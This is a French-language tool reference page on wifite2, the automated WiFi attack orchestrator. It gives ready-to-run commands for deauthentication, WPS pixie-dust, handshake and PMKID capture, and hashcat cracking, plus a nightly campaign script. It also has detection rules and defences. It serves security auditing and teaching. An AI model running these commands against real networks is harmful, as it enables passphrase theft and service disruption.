

# 📡 Wifite — Wireless & Réseau

> [!info] **En 1 phrase**
> Script d'attaque WiFi **entièrement automatisé** : scan des réseaux, sélection automatique de la cible la plus faible et lancement de l'attaque WEP/WPA/WPS adaptée — un « push-button » pensé pour gagner du temps.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | wifite (wifite2) |
| Description | Auditeur WiFi automatisé : scan, classement des cibles, attaque WEP/WPA/WPA2/WPS (handshake, PMKID, pixie dust), crack par dictionnaire et sauvegarde des captures |
| Catégorie | 📡 Wireless & Réseau |
| Sous-catégorie | Attaque & Cracking WiFi (automatisation) |
| Fonction principale | Orchestrer aircrack-ng, reaver/pixiewps, tshark et hashcat en une commande « push-button » |
| Type d'outil | Script Python CLI (orchestrateur) |
| Licence | GPL-2.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python 3 |
| Développeur / organisation | derv82 (Derv Merkler) ; fork communautaire kimocoder/wifite2 |
| Projet officiel | derv82/wifite2 (wifit3 en préparation) |
| Dépôt officiel | https://github.com/derv82/wifite2 |
| Documentation officielle | https://github.com/derv82/wifite2 |
| Date de création | 2011 (wifite original) ; réécriture wifite2 en 2015 |
| État du projet | maintenu (fork kimocoder le plus actif ; wifit3 en développement) |
| Dernière version connue | wifite2 v2.7.0 (paquet Kali) |
| Systèmes compatibles | Kali Linux (recommandé), ParrotSec ; autres distros si outils récents |

> [!note] Pour vérifier / compléter
> Le dépôt `derv82/wifite2` pointe vers `kimocoder/wifite2` comme version la plus supportée ; `wifit3` (derv82/wifit3) parle aux adaptateurs USB directement (Linux + Windows). Vérifier `wifite --version` après installation.

---

## 🎯 Concept

`wifite` (v2 par derv82) orchestre la suite `aircrack-ng`, `reaver`/`pixiewps`, `tshark` et `hashcat` en un seul flux : il scanne, classe les cibles (par puissance, chiffrement, WPS actif), lance l'attaque adaptée et écrit les résultats dans un dossier `hs/`. Il cible en priorité le **WPS** (via reaver/pixiewps), puis le **WPA/WPA2** (capture de handshake + crack par dictionnaire) et le **WEP** (ARP replay). Idéal pour les audits rapides et la vérification de la posture d'un parc de points d'accès.

L'intérêt est la **productivité** : au lieu d'enchaîner manuellement `airodump-ng` → `aireplay-ng` → `aircrack-ng`, wifite choisit le vecteur le plus rapide pour chaque AP, gère les handshakes déjà capturés (`hs/`), et fournit des options fines (bandes, puissance minimale, `--no-deauth`). Les résultats (.cap/.pcapng, clés) sont stockés pour le rapport d'audit.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Orchestration | Wifite ne fait rien lui-même : il pilote aircrack-ng, reaver, pixiewps, tshark, hashcat |
| Dossier `hs/` | Répertoire des captures (.cap/.pcapng) et clés : wifite saute les réseaux déjà traités |
| Handshake 4-way | Échange EAPOL à l'association WPA/WPA2 ; sa capture permet le crack offline |
| PMKID | Hash émis par l'AP (pas de client requis) ; capturable par wifite/hcxdumptool |
| WPS / Pixie dust | Brute force PIN en ligne (reaver) ou offline (pixiewps) selon la puce |
| ARP replay (WEP) | Attaque statistique : réinjection de paquets ARP pour collecter des IV |
| Dictionnaire | Liste de passphrases (rockyou…) pour le crack WPA/WPA2 |
| `--all` | Attaque automatique de toutes les cibles sans confirmation |
| `--no-deauth` | Capture sans déconnecter les clients (plus discret, plus lent) |
| Bande / puissance | Filtres `--2ghz`/`--5ghz` et `--power` pour ne garder que les cibles utiles |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y wifite
# Kali : préinstallé ; dépendances : aircrack-ng, reaver, pixiewps, hashcat, tshark
wifite --version
```

### Arch Linux

```bash
sudo pacman -S wifite
```

### Fedora / RHEL

```bash
sudo dnf install wifite
```

### macOS

```bash
brew install wifite2
# ou depuis le dépôt : git clone https://github.com/derv82/wifite2 && cd wifite2
sudo python3 setup.py install
```

### Windows

```powershell
# wifite2 non supporté nativement (mode moniteur indisponible)
# wifit3 (en développement) supporte certains adaptateurs USB sous Windows
```

### Docker

```bash
# Déconseillé : accès direct à la carte radio requis (mode moniteur)
```

### Compilation depuis les sources

```bash
git clone https://github.com/derv82/wifite2.git && cd wifite2
sudo python3 setup.py install
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - Carte Wi-Fi **mode moniteur + injection** obligatoire (chipset compatible aircrack-ng).
> - Outils requis à jour : `aircrack-ng`, `reaver`/`pixiewps`, `hashcat`, `tshark` (détection WPS).
> - Wifite est conçu pour les **dernières versions de Kali** : les autres distros ont souvent des outils obsolètes.
> - `airmon-ng check kill` pour libérer l'interface avant le scan.

---

## ⚙️ Configuration

Wifite se configure **en ligne de commande**. Les options clés filtrent les cibles, choisissent les vecteurs et gèrent la discrétion.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `--dict <fichier>` | Dictionnaire de crack | chemin | Crack WPA/WPA2 | `--dict rockyou.txt` |
| `--wpa / --wep / --wps` | Restreindre aux types | on/off | Choix du vecteur | `--wps` |
| `--all` | Toutes les cibles | on/off | Pas de confirmation | `--all` |
| `--pixie` | Prioriser pixiewps | on/off | PIN offline rapide | `--pixie` |
| `--reaver` | Forcer reaver | on/off | Brute force PIN | `--reaver` |
| `--no-deauth` | Pas de déauthentification | on/off | Discret / passif | `--no-deauth` |
| `--new-hs` | Réattaquer les réseaux connus | on/off | Force la re-capture | `--new-hs` |
| `--power <dBm>` | Puissance minimale | valeur | Filtre les AP lointains | `--power 60` |
| `--2ghz / --5ghz` | Bande de fréquence | on/off | Cibler une bande | `--5ghz` |
| `--no-dict` | Capture sans crack | on/off | Handshake seul | `--no-dict` |
| `--bssid <mac>` | Cible unique | MAC | Focus sur un AP | `--bssid AA:BB:CC:DD:EE:FF` |

---

## 🏗️ Architecture interne

Wifite est un **script Python 3** qui orchestre des binaires externes :

1. **Initialisation** — détecte les interfaces en mode moniteur (`iwconfig`/`ifconfig`), les passe en mode moniteur via `airmon-ng` si nécessaire.
2. **Scan** — lance `airodump-ng` (2,4 et 5 GHz) pour lister les AP : ESSID, BSSID, canal, puissance, chiffrement, WPS. `tshark` est utilisé pour détecter les AP avec WPS actif.
3. **Classement** — trie les cibles par puissance et vecteur potentiel (WPS d'abord, WPA2 ensuite, WEP). Choix interactif (ou `--all`).
4. **Attaque** — selon le type :
   - **WPS** : `reaver` (`-K 1` pixiewps puis brute force en ligne).
   - **WPA/WPA2** : `airodump-ng` ciblé + `aireplay-ng` (deauth si permis) → capture du handshake → crack `aircrack-ng`/`hashcat` avec le dictionnaire.
   - **WEP** : `aireplay-ng` ARP replay → `aircrack-ng` (PTW).
5. **Sauvegarde** — les captures et clés vont dans `hs/` ; les réseaux déjà traités sont sautés au lancement suivant (`--new-hs` pour forcer).

Wifite n'introduit pas de nouveau protocole : sa valeur est le **pipeline** et les heuristiques de choix de vecteur.

---

## ⌨️ Commandes

### Commandes principales

```bash
sudo wifite
sudo wifite --dict /usr/share/wordlists/rockyou.txt
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `wifite` | Scan + menu de sélection | Liste des AP classés, attaque de la cible choisie |
| `wifite --dict <f>` | Scan + crack par dictionnaire | Handshake capturé puis passphrase trouvée |
| `wifite --wpa --dict <f> --all` | Attaque auto de tout le WPA | Toutes les cibles traitées en série |
| `wifite --wps --pixie` | WPS + pixie dust | Clé en clair en quelques secondes si vulnérable |
| `wifite --no-deauth --no-wpa` | Mode discret | Scan/WPS sans perturbation |
| `wifite --bssid <mac> --no-dict` | Capture d'un AP ciblé | Handshake seul dans `hs/` |

### Commandes avancées

```bash
# Campagne discrète 5 GHz, WPS uniquement, sans deauth
sudo wifite --wps --no-deauth --no-wpa --no-wep --5ghz

# Ciblage par puissance minimale sur la bande 2,4 GHz
sudo wifite --2ghz --power 60 --wpa --dict rockyou.txt --all
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `--dict <f>` | Dictionnaire | `--dict rockyou.txt` | Basic |
| `--wpa/--wep/--wps` | Types ciblés | `--wpa` | Basic |
| `--all` | Toutes les cibles | `--all` | Basic |
| `--bssid <mac>` | Cible unique | `--bssid AA:BB:CC:DD:EE:FF` | Intermediate |
| `--pixie` | Pixie dust | `--pixie` | Intermediate |
| `--reaver` | Forcer reaver | `--reaver` | Intermediate |
| `--no-dict` | Capture seule | `--no-dict` | Intermediate |
| `--new-hs` | Réattaquer connu | `--new-hs` | Intermediate |
| `--power <dBm>` | Puissance min | `--power 60` | Advanced |
| `--2ghz/--5ghz` | Bande | `--5ghz` | Advanced |
| `--no-deauth` | Sans deauth | `--no-deauth` | Advanced |
| `-v` | Verbosité | `-v`, `-vv`, `-vvv` | Advanced |
| `--wpadt` | Délai capture WPA | secondes | Expert |
| `--wept/--wpst` | Options WEP/WPS spécifiques | (voir `-h -v`) | Expert |

> [!tip] Options les plus utiles au quotidien
> - `--dict` : sans dictionnaire, le crack WPA ne démarre pas.
> - `--wps --pixie` : le vecteur le plus rapide (offline) quand il s'applique.
> - `--all` + `--wpa --dict` : campagne automatique sur tout un parc.
> - `--no-deauth` : à activer quand le scope interdit la perturbation.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : scan et attaque manuelle de la cible la plus faible
sudo airmon-ng start wlan0
sudo wifite --dict /usr/share/wordlists/rockyou.txt
# Choisir la cible dans la liste, wifite fait le reste
```

Résultat attendu : handshake capturé puis cracké, fichier dans `hs/`. Erreur fréquente : carte pas en mode moniteur → `iw dev` pour vérifier `wlan0mon`.

### Intermediate

```bash
# Objectif : attaquer automatiquement toutes les cibles WPA2
sudo wifite --wpa --dict /usr/share/wordlists/rockyou.txt --all
```

### Advanced

```bash
# Objectif : capture PMKID + crack GPU (workflow hcxtools/hashcat)
sudo wifite --wpa --no-dict --bssid AA:BB:CC:DD:EE:FF
# Puis hors-ligne :
hcxpcapngtool hs/handshake_*.cap -o handshake.22000
hashcat -m 22000 handshake.22000 /usr/share/wordlists/rockyou.txt
```

### Expert

```bash
# Objectif : campagne discrète WPS 5 GHz, sans deauth, journalisée
sudo wifite --wps --pixie --no-deauth --no-wpa --no-wep --5ghz -v
# Objectif : debug du pipeline (voir les commandes exécutées)
sudo wifite --wpa --dict wordlist.txt --bssid AA:BB:CC:DD:EE:FF -vvv
```

---

## 🧪 Workflow complet (scénario pas à pas)

**Scénario : audit rapide d'un site avec plusieurs box.**

1. **Passer la carte en mode moniteur** puis lancer le scan interactif :
   ```bash
   sudo airmon-ng start wlan0
   sudo wifite --dict /usr/share/wordlists/rockyou.txt
   ```
2. Wifite liste les réseaux avec puissances, chiffrement et état WPS. Sélectionner la cible (`1`).
3. Wifite déauthentifie un client pour capturer le handshake, puis cracke avec le dictionnaire.
4. Résultat : `WPA handshake captured` puis la passphrase, et sauvegarde du `.cap` dans `hs/` :
   ```bash
   ls hs/
   # ex: hs/handshake_AA-BB-CC-DD-EE-FF_2026-08-15T10-00-00.cap
   ```
5. Relancer en automatique sur tout le parc avec `--all --wpa --dict`.

---

## 🎬 Scénarios avancés

### Scénario 1 : Attaque WPS offline (pixiewps) sur les routeurs vulnérables

```bash
sudo wifite --wps --pixie --all
# pixiewps exploite le défaut de randomisation des PIN WPS (vulnérabilité du fabricant)
# La clé sort parfois directement en quelques secondes, sans dictionnaire
```

### Scénario 2 : Capturer le handshake puis le cracker hors-ligne avec hashcat (GPU)

```bash
# 1. Capture ciblée, sans crack intégré
sudo wifite --wpa --no-dict --bssid AA:BB:CC:DD:EE:FF

# 2. Conversion du .cap au format hashcat 22000
hcxpcapngtool hs/handshake_AA-BB-CC-DD-EE-FF_*.cap -o handshake.22000

# 3. Crack GPU (PMKID / handshake EAPOL)
hashcat -m 22000 handshake.22000 rockyou.txt
```

### Scénario 3 : Campagne discrète sur un parc — scan + WPS uniquement

```bash
sudo wifite --wps --no-deauth --no-wpa --no-wep --5ghz
# Uniquement les réseaux 5 GHz avec WPS actif, sans perturber les clients
```

### Scénario 4 : Capture PMKID et crack avec hcxtools + hashcat

Le PMKID se capture sans client connecté, contrairement au handshake 4-way.

```bash
# 1. Capture avec hcxdumptool (PMKID/handshake)
sudo hcxdumptool -i wlan0mon --enable_status=1 -o dump.pcapng

# 2. Conversion au format hashcat
hcxpcapngtool dump.pcapng -o wpa.22000

# 3. Crack
hashcat -m 22000 wpa.22000 /usr/share/wordlists/rockyou.txt
```

### Scénario 5 : Restriction à une bande et à une puissance minimale

Cibler uniquement les AP à portée utile pour éviter d'attacher des réseaux lointains.

```bash
sudo wifite --2ghz --power 60 --wpa --dict rockyou.txt --all
# --power 60 : ignore les réseaux dont le signal est < 60 (en valeur absolue du dBm)
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Scan 2,4/5 GHz, cartographie des AP et clients, état WPS |
| Exploitation | Attaque automatique WPS (pixie/reaver), handshake WPA/WPA2, WEP |
| Credential access | Crack par dictionnaire (aircrack-ng/hashcat) des passphrases |
| Pre-attack | Sélection de la cible la plus faible (puissance, WPS, dict) |
| Red team / audit | Évaluation de la posture WiFi d'un parc en peu de temps |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Brute Force : Password Cracking | T1110.002 | Crack offline des handshakes (dictionnaire) | Monitoring, logs | Passphrases robustes, WPA3/SAE |
| Credential Access | Brute Force : Password Guessing (WPS) | T1110.001 | Reaver/pixiewps sur les PIN WPS | WIDS : rafales WPS | Désactiver WPS |
| Collection | Network Sniffing | T1040 | Capture des handshakes/PMKID | WIDS | Chiffrement, WPA3 |
| Impact | Wi-Fi Disassociation | T1466 | Deauth automatique pour la capture | WIDS : spikes de deauth | WIDS, WPA3/SAE |
| Initial Access | Valid Accounts (clé WiFi) | T1078 | Connexion avec la passphrase volée | Monitoring des accès | MFA réseau, 802.1X |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Wifite agrège les vecteurs des autres outils : T1110 (crack/guessing), T1040 (sniffing) et T1466 (deauth) couvrent son pipeline complet.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Deauth anormales et réessais rapides de connexion | Signature wifite pendant la capture |
| WPS activé sur les box (voie pixiewps/reaver) | Vecteur le plus rapide — à fermer |
| Passphrase faible devinée par dictionnaire (rockyou) | Indicateur de posture |
| Handshake 4-way capturé et cracké | Trafic EAPOL suivi par WIDS |
| AP puissants ciblés en priorité | Réduire la puissance des AP non nécessaires |
| Requêtes de connexion répétées pendant une courte fenêtre | Corrélation temporelle des essais |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma : rafale de deauth suivie d'associations (pattern wifite)
title: WiFi Handshake Harvest Pattern (wifite)
id: d4e5f6a7-0007-4c00-e000-000000000007
status: experimental
description: Deauth massive suivie immédiatement d'associations = capture de handshake
logsource:
  category: wireless
  product: wids
detection:
  sequence:
    - selection_deauth: { frame.subtype: 12 }
    - selection_assoc:  { frame.subtype: [0, 1] }
  timeframe: 10s
condition: sequence
level: high
```

```bash
# Exemple Suricata/Snort : inondation de deauth (capture automatisée)
alert wlan any any -> any any (msg:"Deauth flood - possible wifite"; \
  wlan.fc.type_subtype:12; threshold:type both, track by_dst, count 100, seconds 5; \
  sid:1000007; rev:1;)
```

---

## 🤖 Automatisation

```bash
# Exemple : audit nocturne automatique d'un parc (test autorisé)
#!/bin/bash
# /usr/local/bin/wifi-audit-nightly.sh
sudo airmon-ng check kill
sudo airmon-ng start wlan0
cd /srv/wifi-audit
sudo wifite --wpa --wps --pixie --dict /usr/share/wordlists/rockyou.txt \
  --all --power 55 --new-hs >> audit-$(date +%F).log 2>&1
sudo airmon-ng stop wlan0
```

```python
#!/usr/bin/env python3
# Objectif : parser les logs wifite pour extraire les clés trouvées
import re

def parse_keys(logfile="audit.log"):
    with open(logfile) as fh:
        text = fh.read()
    for m in re.finditer(r"\[*\]? ?(?:WPA key|WPA2 key|KEY)?\s*[:=]?\s*['\"]?([A-Za-z0-9!@#$%^&*()_+\-]{8,})['\"]?", text):
        yield m.group(1)

for key in parse_keys():
    print(f"[+] Clé candidate : {key}")
```

---

## 📤 Output et parsing

La sortie console suit le pipeline étape par étape ; les **captures et clés** sont écrites dans `hs/`. Le fichier `hs/cracked.txt` (si présent) liste les passphrases trouvées.

```bash
# Lister les captures et résultats
ls -la hs/

# Compter les clés crackées
grep -c "" hs/cracked.txt 2>/dev/null

# Convertir une capture en format hashcat pour crack GPU
hcxpcapngtool hs/handshake_AA-BB-CC-DD-EE-FF_*.cap -o handshake.22000
```

```python
# Exemple de parsing : identifier les cibles attaquées depuis un log
import re
with open("audit.log") as fh:
    text = fh.read()
targets = re.findall(r"\[(\d+)\]\s+(\S+)\s+(\S+)\s+(\S+)", text)
for idx, bssid, essid, enc in targets:
    print(f"cible {idx} : {essid} ({bssid}) - {enc}")
```

---

## 🔗 Intégrations

```text
wifite (orchestrateur) → aircrack-ng / reaver / pixiewps / hashcat → clés + hs/
wifite (capture) → hcxpcapngtool → hashcat -m 22000 → crack GPU
wifite (scan) → rapport d'audit → SIEM / documentation
```

- [[Tools|🧰 Outils]]
- [[Outil - aircrack-ng]] — moteur de capture/crack utilisé par wifite
- [[Outil - Reaver]] / pixiewps — vecteur WPS de wifite
- [[Outil - hcxdumptool]] — capture PMKID alternative (workflow 22000)
- [[Outil - hashcat]] — crack GPU des captures
- [[Outil - tshark]] — détection WPS et vérification des captures

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| aircrack-ng manuel | Contrôle fin, scriptable | Long à orchestrer | Toutes les étapes détaillées |
| Wifite (v1) | Historique | Moins de fonctionnalités | Legacy |
| wifit3 | USB userland, Linux+Windows | En développement, adaptateurs limités | Nouveaux déploiements |
| fluxion / wifiphisher | Evil twin / phishing | Pas le même objectif | Social engineering |
| Pwnagotchi | Collecte passive automatisée | Matériel dédié | Recon continue |

> **Quand utiliser wifite plutôt qu'aircrack-ng manuel ?** Pour un **audit rapide et reproductible** (choix automatique du vecteur, gestion du dossier `hs/`) : aircrack-ng reste la référence quand on veut contrôler chaque étape.

---

## ⚡ Performance

- La vitesse dépend entièrement des outils sous-jacents : handshake (quelques minutes en deauth) puis crack (dictionnaire → CPU/GPU).
- Le **WPS pixie dust** est le chemin le plus rapide (secondes) quand la puce est vulnérable.
- Le **handshake seul** (sans crack) est rapide ; le crack par dictionnaire peut prendre de quelques secondes à des heures selon la liste et le matériel.
- Wifite parallélise modérément : il traite les cibles en série (`--all`), en réutilisant les captures déjà faites (`hs/`).
- Charge mémoire faible (Python + binaires externes) ; la charge radio est celle des outils orchestrés.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : wifite ne voit aucune carte en mode moniteur

- **Cause** : pas d'interface monitorée, driver sans support.
- **Solution** : `sudo airmon-ng start wlan0`, vérifier `iw dev`, activer le moniteur manuellement si besoin.
- **Vérification** : `iw dev` montre `type monitor` sur l'interface.

#### Problème : aucun réseau listé au scan

- **Cause** : canal/bande inappropriés, carte pas sur le bon mode, drivers.
- **Solution** : vérifier les drivers, relancer avec `--2ghz`, rapprocher la carte.
- **Vérification** : `airodump-ng wlan0mon` affiche des AP en test manuel.

#### Problème : le crack WPA ne démarre pas (pas de dictionnaire)

- **Cause** : `--dict` manquant.
- **Solution** : fournir `--dict /usr/share/wordlists/rockyou.txt` (ou une liste adaptée).
- **Vérification** : la sortie affiche le chemin du dictionnaire.

#### Problème : deauth bloquées / réseau inchangé

- **Cause** : `--no-deauth` ou carte sans injection.
- **Solution** : retirer `--no-deauth` (si autorisé) et vérifier `aireplay-ng -9`.
- **Vérification** : `aireplay-ng -9 wlan0mon` confirme l'injection.

#### Problème : handshake capturé mais pas de crack

- **Cause** : passphrase absente du dictionnaire, ou handshake incomplet.
- **Solution** : enrichir le dictionnaire (règles), vérifier la capture avec `aircrack-ng cap.cap`, repasser par hcxtools + hashcat GPU.
- **Vérification** : `aircrack-ng hs/handshake_*.cap` valide le handshake.

---

## 🔐 Sécurité de l'outil

- Wifite exécute des attaques **actives** (deauth, injection) : usage strictement limité aux périmètres autorisés.
- Les captures dans `hs/` contiennent des handshakes et des métadonnées réseau : à protéger et détruire après l'audit.
- Le mode par défaut **déauthentifie** : impact de disponibilité pour les utilisateurs réels.
- Vérifier les sources (GitHub officiel/forks) : des versions modifiées circulent.
- Détectable par WIDS (deauth, associations répétées) : activité identifiable.

---

## ⚠️ Limitations

- **Orchestrateur** : dépend de la présence et de la version des outils sous-jacents (distros non-Kali souvent incompatibles).
- Le crack WPA/WPA2 ne vaut que ce que vaut le **dictionnaire**.
- Inefficace contre **WPA3/SAE pur** (pas de PSK crackable).
- Pixie dust limité aux **puces WPS vulnérables**.
- WEP est quasi disparu mais toujours supporté (ARP replay).
- Windows : non supporté (wifit3 en développement pour certains adaptateurs USB).

---

## 📋 Cheatsheet

```bash
# Scan + attaque interactive
sudo wifite

# Avec dictionnaire
sudo wifite --dict /usr/share/wordlists/rockyou.txt

# Attaque automatique de toutes les cibles WPA/WPA2
sudo wifite --wpa --dict wordlist.txt --all

# WPS prioritaire (pixie dust offline)
sudo wifite --wps --pixie

# Capture seule d'un AP précis
sudo wifite --wpa --no-dict --bssid AA:BB:CC:DD:EE:FF

# Mode discret (pas de deauth)
sudo wifite --no-deauth --no-wpa

# Campagne WPS 5 GHz sans perturbation
sudo wifite --wps --pixie --no-deauth --no-wpa --no-wep --5ghz

# Filtre par puissance minimale
sudo wifite --2ghz --power 60 --wpa --dict rockyou.txt --all

# Conversion vers hashcat + crack GPU
hcxpcapngtool hs/handshake_*.cap -o handshake.22000
hashcat -m 22000 handshake.22000 /usr/share/wordlists/rockyou.txt
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Auditer un parc WiFi en automatisant les attaques WPS/WPA/WEP et le crack |
| **Quand l'utiliser ?** | Audits rapides, vérification de posture, campagne multi-sites autorisée |
| **Commande principale** | `sudo wifite --dict /usr/share/wordlists/rockyou.txt` |
| **Alternative principale** | aircrack-ng manuel (contrôle fin) |
| **Concepts importants** | Orchestration, dossier `hs/`, handshake, PMKID, WPS/pixie, dictionnaire |
| **Liens associés** | [[Techniques/Attaques WiFi (WPA2 et PMKID)\|📶 Hub WiFi]] · [[Outil - aircrack-ng]] · [[Outil - Reaver]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Deauth anormales et réessais rapides de connexion (signature wifite) | WIDS/WIPS : alerter sur les patterns de deauth |
| WPS activé sur les box (voie pixiewps/reaver) | Désactiver WPS (coule la voie la plus rapide) |
| Passphrase faible devinée par dictionnaire (rockyou) | Passphrase longue (> 12 caractères, hors dictionnaires) |
| Handshake 4-way capturé et cracké | WPA3/SAE : pas de PSK à cracker |
| AP puissants (dBm élevés) ciblés en priorité | Réduire la puissance d'émission des AP non nécessaires |
| Requêtes de connexion répétées pendant une courte fenêtre | WIDS + corrélation temporelle des essais de handshake |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 Wifite garde les handshakes dans `hs/` et **saute les réseaux déjà attaqués** (sauf `--new-hs`) : c'est une vraie optimisation pour les campagnes sur plusieurs sites.

> [!warning] ⚠️ Le mode par défaut fait des **deauth automatiques** très visibles (le réseau tombe) et peut déclencher des alarmes. En test autorisé, préférer `--no-deauth` ou ne cibler que le WPS. `--pixie` ne marche que sur les puces WPS vulnérables (défauts du fabricant).

> [!tip] 💡 Vérifie que la carte est bien en mode moniteur avant de lancer : `sudo airmon-ng start wlan0`, puis `iw dev` pour confirmer le nom d'interface (`wlan0mon`).

---

## 📚 References

### Official

- GitHub officiel (wifite2) : https://github.com/derv82/wifite2
- Fork maintenu : https://github.com/kimocoder/wifite2
- wifit3 (nouvelle génération) : https://github.com/derv82/wifit3

### Security references

- MITRE ATT&CK T1110 — Brute Force : https://attack.mitre.org/techniques/T1110/
- MITRE ATT&CK T1040 — Network Sniffing : https://attack.mitre.org/techniques/T1040/
- MITRE ATT&CK T1466 — Wi-Fi Disassociation : https://attack.mitre.org/techniques/T1466/
- Format hashcat 22000 : https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

### Community

- README wifite2 (méthodes, options) : https://github.com/derv82/wifite2/blob/master/README.md
- HackTricks — wifi cracking : https://book.hacktricks.xyz/wifi-cracking
- Forums Kali — wifite : https://forums.kali.org/

---

> [!info] 📚 **Sources**
> - [GitHub officiel wifite2](https://github.com/derv82/wifite2)
> - [Fork kimocoder/wifite2 (version la plus supportée)](https://github.com/kimocoder/wifite2)

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Techniques/Attaques WiFi - WPS|🔢 WPS]] · [[Techniques/Attaques WiFi - WPA2 PSK|🔐 WPA2-PSK]] · [[Outil - aircrack-ng]] · [[Outil - Reaver]]
